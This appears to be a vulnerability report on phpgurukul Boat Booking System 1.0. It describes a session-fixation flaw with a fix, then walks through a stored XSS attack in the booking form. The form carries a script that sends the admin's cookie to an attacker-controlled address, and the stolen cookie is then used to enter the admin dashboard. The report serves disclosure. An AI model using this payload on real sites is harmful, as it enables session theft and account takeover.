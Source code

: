 # Session Fixation vulnerability from phpgurukul Boat Booking System 1.0 
**Affected Project**: Boat Booking System 1.0

**Official Website**: https://phpgurukul.com/boat-booking-system-using-php-and-mysql/

**Version**: 1.0

**Related Code file**: book-boat.php

## Vulnerability Description

The session is being started (session_start()) without regenerating the session ID after login, which could expose the system to session fixation attacks. An attacker can force a session ID onto a victim and then hijack it after the victim logs in.

**Risk**: If an attacker gets hold of the session ID (via XSS or other means), they could hijack the session and impersonate the user.

**Fix**: After logging in, regenerate the session ID to prevent this attack.

Via injecting `<script>var i=new Image(); i.src="http://10.10.14.12:1234/?cookie="+btoa(document.cookie);</script>` payload to forms in `book-boat.php`, attacker can inject a XSS payload.

When admin user sign in to check on `all-booking.php`, payload will be triggered and admin cookie is forwarded to attacker's netcat listener, which can be used to login as the admin user without needing any credentials. 


## Demonstration

Below is how boat booking system looks like. Let's fill it up with Session Hijacking payload: `<script>var i=new Image(); i.src="http://10.10.14.12:1234/?cookie="+btoa(document.cookie);</script>`

![Screenshot from 2024-10-17 11-57-34](https://github.com/user-attachments/assets/66af02a8-6ef0-4c27-b8f7-beeef3b11454)

We can see that the booking was done successfully:

![Screenshot from 2024-10-17 11-57-45](https://github.com/user-attachments/assets/50d16838-f7e8-4043-befc-3c2cca27d422)

Now, sign in as the admin:

![Screenshot from 2024-10-17 11-58-06](https://github.com/user-attachments/assets/b1e98c53-530f-475d-8ab6-ff2ceee9be4c)

Going to `all-booking.php`, payload is triggered, and attacker's netcat listener intercepts the admin session cookie:

![Screenshot from 2024-10-17 11-58-23](https://github.com/user-attachments/assets/e79d126a-4a8c-4202-a494-b08c0cbc6806)

Using `atob`, this can be decoded to PHPSESSID:

![Screenshot from 2024-10-17 11-59-46](https://github.com/user-attachments/assets/521ffa2f-55d2-45d5-8f15-0f33c58b869d)

Use coookie editor to set the browser cookie to intercepted admin cookie:

![Screenshot from 2024-10-17 12-10-03](https://github.com/user-attachments/assets/5c64497e-cf01-42c3-9792-e38c3eee2d39)

Without needing any admin credentials, attacker is now able to access admin dashboard with admin privilege:

![Screenshot from 2024-10-17 12-00-38](https://github.com/user-attachments/assets/37deba4e-1095-4aea-bc81-ef0a4dabcd3b)


